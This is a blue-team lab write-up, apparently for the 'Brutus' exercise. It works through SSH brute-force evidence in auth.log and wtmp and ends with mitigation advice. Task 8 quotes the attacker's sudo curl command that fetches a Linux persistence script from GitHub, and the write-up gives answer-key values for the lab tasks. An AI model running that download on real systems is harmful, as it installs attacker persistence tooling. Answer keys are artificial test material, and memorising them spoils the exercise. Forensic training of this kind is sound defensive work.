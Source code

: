 #  🕵️ Brutus Lab Investigation

## Task 1: Identify the Attacker's IP Address

- **IP Address Used by the Attacker**: `65.2.161.68`
- The attacker used this IP address to carry out a brute force attack, which can be seen in the logs.

![Brute-Force Logs](https://imgur.com/YRqEdFH.png)  
*Ref 1: `auth.log` showing brute-force attempts from attacker IP `65.2.161.68`*  

---

## Task 2: Identifying the Compromised Account

- **Compromised Account**: `root`
- The attacker successfully gained access to this account after multiple failed login attempts.

![Successful Login Entry](https://imgur.com/Qy2pA10.png)  
*Ref 2: Attacker successfully logged in as `root`*

---

## Task 3: Identify the Timestamp of Attacker's Manual Login

- **Login Time**: `2024-03-06 06:32:45`
- The login time is found in the `wtmp` artifact, and it is different from the authentication time.

![Attacker's Login Time](https://imgur.com/n3ygooB.png)  
*Ref 3: `wtmp` logs showing manual attacker login at `06:32:45`*

---

## Task 4: Identifying the Session Number

- **Session Number**: `37`
- SSH login sessions are tracked and assigned a session number. This session number corresponds to the attacker's session for the user account `root`.

![Session Number](https://imgur.com/bI9FQp9.png)  
*Ref 4: Session `37` assigned to the attacker's login*

---

## Task 5: Discovering the Attacker's Persistence Strategy

- **Backdoor Account Created by the Attacker**: `cyberjunkie`
- The attacker added this new user account as part of their persistence strategy on the server and gave it higher privileges.

![New User Creation](https://imgur.com/VlVnkQ6.png)  
*Ref 5: Attacker-created account `cyberjunkie` for persistence*

---

## Task 6: MITRE ATT&CK Sub-Technique ID

- **MITRE ATT&CK Sub-Technique ID**: `T1136.001`
- The attacker used the **T1136.001** sub-technique for persistence by creating a new account, as part of their attack strategy.

![MITRE ATT&CK Reference](https://imgur.com/qvv8nWp.png)  
*Ref 6: MITRE ATT&CK framework reference for `T1136.001` – New Account Creation*

---

## Task 7: End Time of the Attacker's First SSH Session

- **Session End Time**: `2024-03-06 06:37:24`
- This timestamp corresponds to when the attacker's first SSH session ended, as noted in the `auth.log`.

![Attacker's Exit Log](https://imgur.com/AjfZGI4.png)  
*Ref 7: `auth.log` showing the attacker’s session end time at `06:37:24`*

---

## Task 8: Full Command Executed by the Attacker Using Sudo

- **Command Executed**:  
  `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
- The attacker logged into their backdoor account and used `sudo` privileges to execute this command to download a script.

![Command Execution Log](https://imgur.com/AjfZGI4.png)  
*Ref 8: Command executed by the attacker using sudo to download the script*

---

### **Findings and Mitigation Steps:**

- **Attack Vector**: Brute-force attack via SSH (`auth.log` analysis)
- **Persistence Mechanism**: Created a new privileged backdoor user (`cyberjunkie`)
- **Mitigation Steps**:
  - **Enforce strong SSH authentication** (disable password logins, use key-based authentication)
  - **Enable fail2ban** to block brute-force attempts
  - **Monitor new user creations & privilege escalations**
  - **Analyze outbound connections** for malicious activity (`curl` downloads)

---

🚀 **This investigation provided hands-on experience in forensic log analysis, attacker tracking, and security hardening.**

